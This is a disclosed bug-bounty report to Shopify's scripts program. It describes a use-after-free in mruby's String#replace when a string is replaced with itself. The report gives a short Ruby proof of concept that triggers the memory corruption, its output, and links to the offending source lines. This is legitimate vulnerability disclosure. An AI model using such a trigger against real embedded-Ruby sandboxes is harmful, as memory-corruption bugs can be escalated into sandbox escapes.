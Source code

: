 # Use After Free in str_replace

## Report Details
- **Report ID**: 193143
- **URL**: https://hackerone.com/reports/193143
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-12-21T18:03:59.324Z
- **Disclosed**: 2017-01-31T04:35:48.615Z

## Reporter
- **Username**: tunz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
#PoC
```ruby
$a = "A"*50
$a.replace($a)
$b = "B"*50
puts $a
```

#Output
```
$ ./bin/mruby test6.rb
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

The output should be "AAA...", but it prints "BBB...".

#Cause
`$a` is freed in https://github.com/mruby/mruby/blob/5e3077c00da721ede78c07d2f2e261aded74e7b6/src/string.c#L523
and, the pointer is assigned to the same pointer in https://github.com/mruby/mruby/blob/5e3077c00da721ede78c07d2f2e261aded74e7b6/src/string.c#L531



## Attachments
No attachments
